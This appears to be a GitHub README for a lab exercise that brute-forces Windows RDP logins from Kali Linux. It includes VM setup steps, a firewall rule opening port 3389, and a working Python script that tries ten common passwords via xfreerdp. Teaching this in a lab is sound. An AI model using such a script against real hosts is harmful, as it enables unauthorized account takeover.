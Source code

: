 # RDP Brute-Force Attack Tool

This is a Python-based brute-force script designed for **ethical hacking** and **cybersecurity learning** in a **controlled lab environment**. It targets a Windows VM with Remote Desktop Protocol (RDP) enabled and tests a list of passwords to identify weak credentials.

>  **Disclaimer:** This tool is for educational and authorized penetration testing purposes **only**. Misuse is illegal.

---

##  Features

- Python script using `xfreerdp`
- Tests 10 common passwords from a built-in wordlist
- Simple, beginner-friendly code
- Intended for virtual lab environments only

---

##  Lab Setup Instructions

### Step 1: Setup Network in VirtualBox

- Use **Host-Only Adapter** (or Internal Network) for both VMs:
  - Go to: *VirtualBox → Settings → Network*
  - Set `Adapter 1` → `Enable Network Adapter`
  - Attached to: **Host-Only Adapter**
  - Adapter Type: `Intel PRO/1000 MT Desktop`

Repeat the same for **Windows VM**.

### Step 2: Get IP Addresses

- **Kali Linux:**  
  Run `ip a` or `ifconfig`  
  Look for something like: `192.168.56.**`

- **Windows VM:**  
  Run `cmd` → `ipconfig`  
  Find: `IPv4 Address: 192.168.56.**`

---

##  Windows RDP Configuration

### Step 3: Enable RDP

- Run: `SystemPropertiesRemote`
- Check:  Allow remote connections
- Uncheck:  “Allow connections only from computers with NLA”

## 📸RDP Enabled
![Enable RDP on Windows Machine](https://github.com/user-attachments/assets/104ea17b-0ae3-4abe-a263-2532d0c3d89b)


### Step 4: Allow RDP Through Firewall

Run the following command as **Administrator** in CMD:

```bash
netsh advfirewall firewall add rule name="Allow RDP" dir=in action=allow protocol=TCP localport=3389
```

##  Running the Python Script
### Step 5: Install FreeRDP on Kali
```bash
sudo apt update
sudo apt install freerdp2-x1
```
## Step 5.2: Test RDP Connection from Kali
```bash
xfreerdp /v:<your windows machine ip> /u:Admin /p:12345 /cert:ignore
```
  If you see the desktop or authentication prompt, it works.

### Step 6: Write the Brute-Force Script
Create the file:
```bash
nano rdp_brute.py
```
## Paste the code:
```bash
import subprocess

target_ip = "192.168.56.**"  # Change to your Windows VM IP
username = "administrator"    # Change to your Windows user

passwords = [
    "123456", "admin", "administrator", "password",    
    "admin123", "test123", "welcome", "qwerty", "1234", "56789"
]

print(f"[*] Starting brute-force on {target_ip} with username '{username}'...\n")

for attempt, password in enumerate(passwords, 1):
    print(f"[{attempt}/10] Trying password: {password}")
    try:
        result = subprocess.run(
            ["xfreerdp", f"/v:{target_ip}", f"/u:{username}", f"/p:{password}", "/cert:ignore"],
            capture_output=True, text=True, timeout=10
        )

        if "Authentication only, exit status 0" in result.stderr or result.returncode == 0:
            print(f"\n[+] SUCCESS! Password found: {password}")
            break
        else:
            print("[-] Failed.")
    except subprocess.TimeoutExpired:
        print("[!] Timeout, skipping...")
    except Exception as e:
        print(f"[!] Error: {e}")
else:
    print("\n[-] Tried all 10 passwords. No match found.")

```
Save and exit:
**Press Ctrl + O, then Enter**
**Press Ctrl + X to exit nano**

### Step 7: Run the Script

```bash
python3 rdp_brute.py
```
You’ll see it try each password and print either "Success" or "Failed"

## 📸 Successful Login
![brute_force_success](https://github.com/user-attachments/assets/ae66d164-0ae5-42ae-b071-1de4814a21c5)






```bash
dolon
```


